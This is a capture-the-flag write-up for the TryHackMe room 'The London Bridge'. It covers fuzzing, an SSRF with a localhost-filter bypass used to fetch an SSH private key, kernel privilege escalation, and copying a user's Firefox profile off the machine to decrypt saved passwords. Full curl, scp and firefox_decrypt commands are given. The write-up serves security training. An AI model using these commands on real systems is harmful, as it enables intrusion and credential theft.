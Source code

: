 ```yaml
---
title: THM The London Bridge
author: hanhctf
date: 2024-10-02 12:00:00 +0700
categories: [Write-up, THM]
tags: [SSRF]
toc: true
mermaid: true
---
```


# [**The London Bridge**](https://tryhackme.com/r/room/thelondonbridge)

# Summary

> - Enumeration Hiden Parameter.
> - SSRF --> local port --> gaince access.
> - Old kernel vulnerability.
> - Firefox_decryptor profile.

## NMAP

```text
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
|   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
8080/tcp open  http-proxy syn-ack gunicorn
|_http-server-header: gunicorn
|_http-title: Explore London
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 02 Oct 2024 11:10:49 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2682
|     <!DOCTYPE html>
```

## Enumeration

Two open port are `22 for ssh` and `8080 for http server`.  
When there is a `http/https server`, I usualy do 2 things in a same time.
Run FUZZ `ffuf` to check directory available.

```shell
┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ ffuf -w /opt/SecLists/Discovery/Web-Content/big.txt -u http://10.10.164.171:8080/FUZZ      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.164.171:8080/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

contact                 [Status: 200, Size: 1703, Words: 549, Lines: 60, Duration: 334ms]
feedback                [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 332ms]
gallery                 [Status: 200, Size: 1722, Words: 484, Lines: 55, Duration: 331ms]
upload                  [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 333ms]
view_image              [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 379ms]
:: Progress: [20476/20476] :: Job [1/1] :: 119 req/sec :: Duration: [0:02:52] :: Errors: 0 ::
```

And access the website to check.
The website run on `Gunicorn` server.
![](/commons/THM/LondonBridge/0_website.png)

Check all function on the website, we can upload `image` via `/gallery`.  
After spending a lot of time testing the `File upload`, can not find the way to bypass it.

Look back to result of FUZZ, `view_image`.  
Testin on `view_image`.

![](/commons/THM/LondonBridge/1_view_image.png)

GET Method is not allow. I switch to `curl` to check POST Method.

![](/commons/THM/LondonBridge/2_post.png)

POST method is supported. We try FUZZ the parameter used by the page.

Fuzzing got a parameter `www`. Look like there is SSRF vuln.  
Testing SSRF with an image in the website `http://10.10.164.171:8080/uploads/www.usnews.jpeg`

![](/commons/THM/LondonBridge/4_ssrf.png)


Curl signal that it is about to display a binary file. This tells us that the image was fetched. We can now try to check if this server can display images/files from external links. To check this we will create a fake file and host it on a simple PHP server.

```shell
echo "SSRF" > test.txt
python3 -m http.server 80
```

![](/commons/THM/LondonBridge/5_ssrf.png)

Greate. The `test.txt` was imported by the server and displayed to us.  

Try access port `8080` on local.

![](/commons/THM/LondonBridge/6_forbidden.png)

`Forbidden`. We can use [this](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) to bypass it.

![](/commons/THM/LondonBridge/7_bypass.png)

Scan all port on local of target.
Create a list `port.txt`

![](/commons/THM/LondonBridge/8_port.png)

![](/commons/THM/LondonBridge/9_port.png)

We can access port `80`.  
FUZZ parameter on port `80`.

![](/commons/THM/LondonBridge/9_ssh.png)

Got `.ssh`, try get `id_rsa`, `authorized_keys`.  
```shell
──(kali㉿kali)-[~/thm/LondonBridge]
└─$ curl http://10.10.164.171:8080/view_image -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'www=http://127.1:80/.ssh/authorized_keys'
ssh-rsa <REDACTED>@london
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ curl http://10.10.164.171:8080/view_image -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'www=http://127.1:80/.ssh/id_rsa'         
-----BEGIN RSA PRIVATE KEY-----
<REDACTED>
-----END RSA PRIVATE KEY-----
                                                                                        
```

From that, we can `ssh` to machine.  
***GOT USER FLAG***

## PRIVILEGE ESCALATION

Upload `linpeas.sh` to `/tmp`.  

The target is using kernel 4.15.0-112, very old and vuln.

![](/commons/THM/LondonBridge/10_kernel.png)

Google exploit.

![](/commons/THM/LondonBridge/11_exploit.png)

This vulnerability can be exploited in different ways depending on what is present on the target. So let’s download the Github repository containing the different POCs for this vulnerability.

![](/commons/THM/LondonBridge/12_root.png)

***GOT ROOT FLAG***

## Charles flag


On `/home/charles` there is `mozila` profile.
Got it and analyz.

Archive file and send it to our attack host to extract the passwords.

```shell
root@london:/home/charles# ls -la
total 24
drw------- 3 charles charles 4096 Apr 23 22:11 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23 22:11 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile

root@london:/home/charles/.mozilla# tar -czf /tmp/firefox.tar filefox/
```

After archived the file, use `scp` to copy from target to local.

```shell
┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ scp -i id_rsa beth@10.10.164.171:/tmp/firefox.tar ./firefox.tar
firefox.tar 
```

De-archive it and use the Python [firefox_decryptor](https://github.com/unode/firefox_decrypt) to extract credentials stored in the browser’s database.

```shell
┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ tar -xaf firefox.tar 

┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ sudo chmod -R 777 ./firefox 

┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ git clone https://github.com/unode/firefox_decrypt.git
Cloning into 'firefox_decrypt'...
remote: Enumerating objects: 1374, done.
remote: Counting objects: 100% (485/485), done.
remote: Compressing objects: 100% (127/127), done.
remote: Total 1374 (delta 382), reused 439 (delta 353), pack-reused 889 (from 1)
Receiving objects: 100% (1374/1374), 495.80 KiB | 2.37 MiB/s, done.
Resolving deltas: 100% (864/864), done.

┌──(kali㉿kali)-[~/thm/LondonBridge]
└─$ cd firefox_decrypt

┌──(kali㉿kali)-[~/thm/LondonBridge/firefox_decrypt]
└─$ python3 firefox_decrypt.py ../firefox/8k3bf3zp.charles
```
